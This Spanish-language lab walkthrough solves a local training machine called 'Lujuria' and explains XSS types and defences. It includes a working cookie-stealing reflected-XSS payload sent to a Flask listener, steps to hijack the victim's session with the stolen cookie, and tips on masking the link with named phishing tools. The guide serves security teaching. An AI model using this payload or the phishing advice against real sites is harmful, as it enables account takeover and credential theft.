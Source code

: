 = Lujuria
:author: Manuel L. Quero
:revdate: 2025-03-13
:toc: left
:doctype: book
:media: prepress

== Tipos de ataques XSS

Existen tres tipos de ataques XSS:

=== Reflejado/Indirecto

El atacante envía un enlace malicioso a la víctima, la víctima hace clic en el enlace y el servidor refleja el código malicioso en la respuesta. Se trata de la variedad de XSS más simple y el script malicioso que busca afectar el navegador de la víctima es fácilmente modificable, probablemente sin que el usuario note el ataque.

image::assets/reflected.png[Reflejado]

=== Persistente/Directo/Almacenado

El atacante envía un enlace malicioso a la víctima, la víctima hace clic en el enlace y el servidor almacena el código malicioso en la base de datos. De esta forma persiste el script inofensivo, hasta que el valor es recuperado por la aplicación y utilizado para conformar parte del documento HTML. Ejemplos de esto pueden ser: los comentarios de sitios web, entradas de blog, nombres de usuario, chats, formularios de contacto, detalle de alguna orden, etc.

image::assets/stored.png[Persistente]

=== Document Object Model (DOM)

El atacante envía un enlace malicioso a la víctima, la víctima hace clic en el enlace y el código malicioso se ejecuta en el navegador de la víctima. DOM facilita la estructura de documentos como HTML o XML y permite a los programas modificar la estructura, estilo y contenido del documento. El ataque DOM XSS se produce cuando el código malicioso se ejecuta en el navegador de la víctima, pero no se envía al servidor. Esto lleva a que el usuario ejecute código desde el lado del cliente sin saber que lo está haciendo.

.Algunas funciones JavaScript vulnerables
[%collapsible]
====
Algunas funciones en JavaScript que pueden ser un indicador de un posible punto vulnerable son:

    domain
    write()
    writeln()
    innerHTML
    insertAdjacentHTML
    onevent
    Element.outerHTML

Sin olvidar las librerías como JQuery, en donde utiliza métodos específicos para facilitar algunas funciones tradicionales del propio JavaScript, u otras librerías sin la adecuada codificación de los datos:

    $.parseHTML()
    add()
    after()
    animate()
    append()
    before()
    constructor()
    has()
    html()
    index()
    init()
    insertAfter()
    insertBefore()
    parseHTML()
    prepend()
    replaceAll()
    replaceWith()
    wrap()
    wrapAll()
    wrapInner()
====

image::assets/dom.png[DOM]

== Solucionar la máquina

Vamos a ver en esta guía como solucionar la máquina *Lujuria*. Se basa en el robo de cookies, por un XSS reflejado y un ligero ataque de phising.

En nuestro caso, actuaremos como *_víctima_* y como *_atacante_*.

* Desde el punto de vista de la *_víctima_* deberemos saber las credenciales para loguearnos y dejar la cuenta abierta. 
* Desde el punto de vista del *_atacante_* no deberemos saber las credenciales del usuario, pero le enviaremos una campaña de phising ficticia a la víctima.

Sería conveniente utilizar una distribución Linux, es recomendable usar Kali Linux.

=== Despliegue de la máquina

[source,bash]
----
$ sudo bash auto_deploy.sh lujuria.tar
----

Como el despliegue es en local, para comprobar que todo se ha realizado correctamente, deberemos crear dos usuarios en nuestro navegador de confianza:

[cols="1,1"]
|===
|Navegador|URL

|Firefox
|about:profiles

|Brave
|brave://settings/manageProfile

|Chrome
|chrome://settings -> "Personas"

|Opera
|opera://settings/side-profiles-settings
|===

=== Víctima

Con la máquina desplegada, abrimos nuestra sesión en firefox e introducimos la IP que nos devolverá el *autodeploy.sh*. Una vez en la página de login, introducimos nuestras credenciales (usuario: dante, contraseña: dante123). Una vez dentro de la página, nos quedamos logueados.

=== Atacante

==== Despliegue de servidor a la escucha

Siendo atacantes, vamos a crear un archivos .py con el siguiente script. Este script crea un servidor local que está a la escucha en el puerto 1337. 

Código tomado de https://skf.gitbook.io/asvs-write-ups/httponly-session-hijacking-xss/httponly-session-hijacking-xss#exploitation[Security Knowledge Framework]

.Ver código
[%collapsible]
====
[source,python]
----
from flask import Flask, request, url_for, render_template, redirect, make_response
import requests

app = Flask(__name__, static_url_path='/static', static_folder='static')
app.config['DEBUG'] = True

@app.route("/<steal_cookie>", methods=['GET'])
def start(steal_cookie):
    return render_template("evil.html")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
----
====
Para poder utilizar este código deberemos tener descargado python3 y después descargaremos las librerias flask y requests. Por último iniciamos el programa.

[source,bash]
----
$ sudo apt install python3
$ pip install flask
$ pip install requests
$ python3 app.py
----

==== Creación de URL maliciosa

Entonces nuestra intención es que la víctima inyecte sin darse cuenta código malicioso javascript. Como atacantes, debemos saber que en la página después de login hay un bloque de texto y que esta es *welcome.php*. 

Entonces vamos a crear nuestra URL maliciosa:

. Comenzamos sabiendo que es el servidor es http, así que no tiene seguridad. [http://]
. Sabemos que el dominio es la IP dada por el *autodeploy.sh*. [http://IP/]
. También conocemos que el servidor tiene la página *welcome.php* y que tiene un bloque de texto. [http://IP/welcome.php?q=] (?q= es la query que espera)
. Y por último nuestro script en javascript, que le enviará las cookies al puerto que abre el .py:

[source,javascript]
----
<script>new Image().src="http://localhost:1337/?stolen_cookie="+document.cookie;</script>
----

Entonces nuestra URL maliciosa quedaría tal que:

----
http://IP/welcome.php?q=<script>new Image().src="http://localhost:1337/?stolen_cookie="+document.cookie;</script>
----

Pero esta URL no la entenderá correctamente el navegador, tenemos que codificarla:

----
http://localhost:8080/welcome.php?q=%3Cscript%3Enew%20Image().src%20%3D%20%22http%3A%2F%2Flocalhost%3A1337%2F%3Fstolen_cookie%3D%22%20%2B%20document.cookie%3B%3C/script%3E
----

==== Los detalles importan

Y si nos gusta atender al detalle, sería recomendable acortar la URL, para que no sea tan sospechosa, incluso podremos enmascararla con algunos programas. Ya que fondomarcador.com posee un acortador, podemos utilizarlo y que parezca menos sospechoso.

Como dato informativo, también existen varios programas en github que nos ayudan a enmascarar nuestra URL o hacernos pasar por otras páginas:

* https://github.com/darkmidus/HiddenEye[HiddenEye] -> HiddenEye es una herramienta de phishing avanzada que permite simular páginas de inicio de sesión falsas para recopilar credenciales. Puede generar enlaces personalizados y utiliza técnicas para evadir detección. También incluye opciones para personalizar ataques dirigidos y simular captchas.
* https://github.com/yangr0/BlackPhish[BlackPhish] -> BlackPhish es una herramienta para realizar ataques de phishing. Permite crear páginas web maliciosas que se asemejan a servicios populares para recolectar datos. Este programa es modular y está diseñado para principiantes en pruebas de penetración.
* https://github.com/Darkmux/URLSpoof[URLSpoof] -> URLSpoof es una herramienta para simular enlaces visualmente similares a URLs legítimas mediante el uso de caracteres Unicode. Está diseñada para demostrar ataques de ingeniería social basados en la confianza en los nombres de dominio.
* https://github.com/UndeadSec/EvilURL[EvilURL] -> EvilURL genera URLs maliciosas que parecen auténticas mediante el uso de caracteres Unicode similares (homoglyphs). Se utiliza para probar la protección de los navegadores frente a ataques de phishing y spoofing de enlaces.

=== Finalizar

Como *atacante* entramos en nuestro perfil del navegador y nos metemos en la IP del servidor. Entonces deberemos darle al *F12* e irnos a la sección de *almacenamiento* y en *cookies*, cambiar la nuestra por la de la víctima. Una vez hecho esto, en la barra del navegador deberemos acceder a */welcome.php* y ya estaremos dentro.

== ¿Cómo prevenir?

=== Herramientas

Hay varias herramientas que nos permiten identificar ataques XSS o exploits en nuestra página.

* https://github.com/epsylon/xsser[epsylon/xsser]
* https://beefproject.com/[beefproject]
* https://github.com/s0md3v/XSStrike[s0md3v/XSStrike]
* https://github.com/ssl/ezXSS[ssl/ezXSS]

=== Para usuarios

Desde el punto de vista del cliente, lo mejor es *desactivar JavaScript*, de esta forma ataques de DOM XSS cómo su objetivo son los códigos de Java del explorador, no tendría ningún efecto. También hay add-ons para los navegadores como https://noscript.net/[NoScript] su configuración estándard fija el bloqueo automático de contenidos activos tales como JavaScript, Java Applets, Adobe Flash o Microsoft Silverlight.

=== Para administradores web

* *Implementar una política de seguridad de contenido* -> Definir políticas de seguridad de contenido (CSP) sólidas para el sitio web y la aplicación web, e implementarlas en los servidores web. Una CSP es una capa adicional de seguridad que puede detectar y mitigar ciertos tipos de ataques. Para evitar los ataques XSS, restringe los scripts que se pueden ejecutar. 

* *Cookies seguras* -> Los equipos de seguridad pueden establecer reglas especiales sobre cómo los servidores web manejan las cookies para reducir la probabilidad de robo de cookies. Por ejemplo, pueden vincular las cookies a direcciones IP específicas.

* *Firewall de aplicación web (WAF)* -> Un https://www.cloudflare.com/es-es/learning/ddos/glossary/web-application-firewall-waf/[WAF], funcionando como un proxy inverso situado en un servidor delante de aplicaciones web, protege a esas aplicaciones supervisando y filtrando el tráfico HTTP entre las aplicaciones e Internet. Las organizaciones pueden establecer reglas WAF para inspeccionar las URL en busca de scripts maliciosos y bloquearlos para que no se reflejen a los usuarios. Las soluciones WAF con aprendizaje automático ofrecen una protección aún mayor al detectar los intentos de eludir las reglas e identificar las variaciones de los ataques conocidos.

* *Codificación* -> Escapar de la entrada del usuario para que el navegador la interprete solo como datos, no como código. El tipo más reconocible de codificación en el desarrollo web está escapando HTML, que convierte los caracteres como en < y >, respectivamente.

* *Validación* -> La validación es el acto de filtrar la entrada del usuario para que se eliminen todas las partes malintencionadas, sin eliminar necesariamente todo el código que contiene. Uno de los tipos de validación más reconocibles en el desarrollo web es permitir algunos elementos HTML (como <em> y <strong>) pero no permitir otros (como <script>).

* *Clasificar en listas* -> Poner en la lista negra como no válida aquellas cadenas que coincidan con el patrón, la lista negra puede resultar complejo al tener que plantearse las posibilidades. Podríamos usar listas blancas, en lugar de definir un patrón prohibido, un enfoque de lista blanca define un patrón permitido y marca el ingreso como inválido si no coincide con este patrón. Esto resulta mucho más sencillo y longevo (de larga duración).

* *Cambiar la entrada* -> Si la entrada no es válida podríamos rechazarla o desinfectarla eliminando las partes no válidas

Para ampliar más la información vease -> https://www.w3.org/blog/2025/how-to-protect-your-web-applications-from-xss/[W3C XSS 2025]

Cómo hemos podido ver hay muchas formas de mitigar este tipo de ataques, aunque siempre será posible saltarse todo este tipo de protección, ya que la seguridad no nos proporciona estar seguros siempre, deberemos estar siempre alerta, ya que el mal siempre acecha desde todo el mundo.

----
"El único sistema verdaderamente seguro es aquel que está apagado, desconectado, encerrado en un bloque de hormigón y sellado en una habitación con guardias bien pagados. Y aun así, no apostaría por ello."

- Eugene H. Spafford
----